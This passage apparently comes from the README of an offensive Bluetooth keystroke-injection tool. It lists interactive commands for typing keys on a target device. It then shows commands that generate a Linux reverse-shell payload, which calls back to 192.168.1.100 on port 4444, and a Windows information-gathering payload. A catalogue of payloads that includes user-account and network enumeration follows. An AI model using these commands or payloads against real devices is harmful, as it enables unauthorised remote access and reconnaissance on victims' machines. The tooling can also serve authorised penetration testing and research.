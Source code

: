Available commands in interactive mode:
- `type <text>` - Type text on target device
- `key <key>` - Press a single key
- `combo <mod+key>` - Key combination (e.g., CTRL+C)
- `payload <file>` - Execute payload file
- `disconnect` - End session

### 3. Generate Custom Payloads

Create custom attack payloads:

```bash
# Reverse shell payload
sudo python3 blue-sec.py generate-payload \
  --name "My Reverse Shell" \
  --type reverse_shell \
  --os linux \
  --ip 192.168.1.100 \
  --port 4444 \
  --output my_payload.json

# Information gathering payload
sudo python3 blue-sec.py generate-payload \
  --name "System Info" \
  --type info_gather \
  --os windows \
  --output sysinfo.json
```

---

## 📋 Available Payloads

### Test Payloads (Harmless)

**1. test_keyboard.json**
- Opens Notepad and types test message
- Safe for demonstrations
- Verifies HID functionality

**2. rickroll_test.json**
- Opens Rick Astley's "Never Gonna Give You Up" on YouTube
- Harmless prank payload
- Good for testing without risks

### Information Gathering

**3. info_gather_windows.json**
- Gathers system information
- Collects IP configuration
- Lists network connections
- Enumerates user accounts
- Target: Windows
